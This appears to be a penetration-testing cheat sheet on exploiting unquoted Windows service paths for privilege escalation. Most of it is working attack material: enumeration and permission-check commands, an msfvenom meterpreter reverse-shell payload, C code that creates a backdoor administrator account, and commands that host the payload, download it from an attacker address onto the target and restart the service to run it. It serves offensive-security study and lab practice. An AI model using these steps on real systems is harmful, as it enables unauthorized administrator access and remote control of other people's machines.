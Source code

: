 We can use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files within them.

Each Windows service maps to an executable file that will be run when the service is started. If the path of this file contains one or more spaces and is not enclosed within quotes, it is potentially vulnerable.
# Enumerate running services:
Powershell:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
CMD one-liner:
```batch
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
# Enumerate File Permissions
Check every path with spaces to see if it's writeable. 

i.e. The following example unqouted service path: C:\Program Files\My Program\My Service\service.exe will have the following paths checked by windows:
* C:\Program.exe
* C:\Program Files\My.exe
* C:\Program Files\My Program\My.exe
* C:\Program Files\My Program\My service\service.exe

Thus the following folders need to be checked for (W) permissions:
* C:\Program Files
* C:\Program Files\My Program
* C:\Program Files\My Program\My service
```batch
icacls "C:\Path"
```
# Craft and place malicious exe in service path
Generate payload with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(IP_ADDRESS) LPORT=$(PORT) -f exe -o service.exe
```
Or
Example malicious service to use:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
On kali, cross-compile the service:
```batch
x86_64-w64-mingw32-gcc adduser.c -o service.exe
```
# Configure webserver to host file for transfer
```bash
python -m http.server 80
```
Remember to set up a listener (multi/handler for meterpreter - and remember to "set payload windows/x64/meterpreter/reverse_tcp") if the service payload is a revshell!

Transfer file to target machine at the vulnerable service path:
```powershell
iwr -uri http://$(IP_ADDRESS)/service.exe -Outfile "C:\Vulnerable\Service\Path.exe"
```
# Restart service
Either restart revice manually or reboot the target (assuming the service is set to automatic startup)
```batch
net stop $SERVICE
```
```batch
net start $SERVICE
```
```batch
shutdown /r /t 0
```

